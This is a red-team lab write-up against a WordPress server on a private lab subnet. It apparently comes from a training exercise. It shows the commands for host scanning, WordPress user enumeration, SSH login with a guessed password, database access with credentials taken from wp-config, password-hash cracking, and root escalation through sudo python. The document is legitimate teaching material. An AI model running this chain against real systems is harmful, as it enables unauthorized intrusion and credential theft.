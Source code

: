 # Red Team: Summary of Operations

This document explains the steps of the attack and reports the vulnerabilities found within the systems.

## Table of Contents
- Network Topology
- Scanning and Host Discovery
- Attacking Target 1
    - Reconnaissance and Scanning
    - Exploitation
    - Vulnerability Assessment

## Network Topology

The diagram below depicts the network topology of a subnet of `192.168.1.1/24` including an attacker Kali Linux machine, an ELK-Stack monitoring system, and three Linux web servers. The Kali Linux machine is used to attack the vulnerable machines on the network. 

![Diagram](Images/Diagram.png)

## Scanning and Host Discovery

Nmap is used to scan the `192.168.1.1/24` subnet for host discovery, operating system detection, and identifying open ports and their exposed services.

The hosts with IP addresses, operating systems, open ports listed in the table shown above were discovered using 

`nmap -A -sV 192.168.1.1/24`

Note: The option `-A` is for operating system and service version detection and is very verbose, however, it is very noisy. The snapshot below shows the exposed services on the machines using `nmap -sV 192.168.1.1/24` as it has a shorter output.

![nmap output](Images/nmap.png)

## Attacking Target 1

### Reconnaissance and Scanning

All the public webpages on the Target 1 were visited to find any exposed sensitive information. The screenshot below shows that the web server uses the WordPress for content management.

![WordPress](Images/WordPress.PNG)

`wpscan` scanner that includes the WordPress vulnerability database is used to enumerate the usernames of the WordPress by brute forcing the author ID by

`wpscan --url 192.168.1.110/wordpress --enumerate u`

![wp-scan](Images/wp-scan.PNG)

### Exploitation

Two users `michael` and `steven` were discovered. The first obvious guess for a password would be the same as the username. It appeared to be the case for the user `michael`. Therefore, both the username and the password are `michael`. To secure a user shell in the Target1

`ssh michael@192.168.1.110`

The content of the website folder `/var/www` was investigated and the hash values of two flags were found. One located in the `/var/www/html/service.html` and the other in `/var/www/flag2.txt`

The hash value of the flag1 is `b9bbcb33ellb80be759c4e844862482d`

![flag1](Images/flag1.PNG)

The hash value of the flag2 is `fc3fd58dcdad9ab23faca6e9a3e581c`

![flag2](Images/flag2.PNG)



The login information to access the database is stored in the `/var/www/html/wordpress/wp-config`

![wp-config](Images/wp-config.PNG)


To access the SQL database using `root` as the username, `R@3nSecurity` as the password and `localhost` as the host:

`mysql -u root -p'R@3nSecurity' -h localhost`

![mysql](Images/mysql.PNG)

To see all the databases

`SHOW databases;`

![database](Images/database.PNG)

To use the `wordpress` database and print the content of the `wp_posts`

`USE wordpress;`

`SELECT * FROM wp_posts;`

![tables](Images/tables.PNG)

Two other flags were found in `wp_posts` table of `wordpress` database.

The hash value of the flag3 is `afc01ab56b50591e7dccf93122770cd2`

The hash value of the flag4 is `715dea6c055b9fe3337544932f2941ce`

![flag34](Images/flag34.PNG)

Exploitable information was found in the `wp_users` table of the `WordPress` database 
The password hash values of the both `michael` and `steven` users are found in the 'wp_users'

`SELECT * FROM wp_users`

![wp_users](Images/wp_users.PNG)

The password hashes were dumped into the Kali machine as `pass.txt` and cracked with the John the Ripper program.

`john pass.txt`

![john](Images/john.PNG)

The `steven` password found to be `pink84`

Login to the Target 1 machine with 

`# ssh steven@192.168.1.110`

![steven](Images/steven.PNG)

To check the sudo privileges of the user `steven`

`sudo -l`

![prev](Images/prev.PNG)

The user `steven` has the privilege of running Python scripts as the root. To spawn a tty Bash shell

`sudo python -c 'import pty; pty.spawn("/bin/bash")'`

The flag 4 is also printed after spawning the shell.

![python](Images/python.PNG)

### Vulnerability Assessment

The following vulnerabilities were found and the Common Weakness Enumeration (CWE) were exploited during the attack

| CWE-| Weakness Description                 | Consequences                           |
|-----|--------------------------------------|----------------------------------------|
| 521 | Weak Password Requirements           | Sensitive Information Exposure         |
| 522 | Insufficiently Protected Credentials | Stolen password, granting a user shell |
| 287 | Improper Authentication              | Stolen password, granting a user shell |

The target runs the Apache 2.4.29 web server and WordPress 4.8.17, which both of them were outdated. There are 29 Common Vulnerabilities and Exposures (CVE) available for the Apache 2.4.29 web server. The list of all vulnerabilities is available in https://httpd.apache.org/security/vulnerabilities_24.html. CVE-2021-26691 and CVE-2019-0211 which result in heap overflow and arbitrary code execution are two examples of the severe vulnerabilities.
The WordPress 4.8.17 vulnerabilities are available in https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/
CVE-2018-19296 is one of the severe vulnerabilities makes this version vulnerable to an object injection attack.

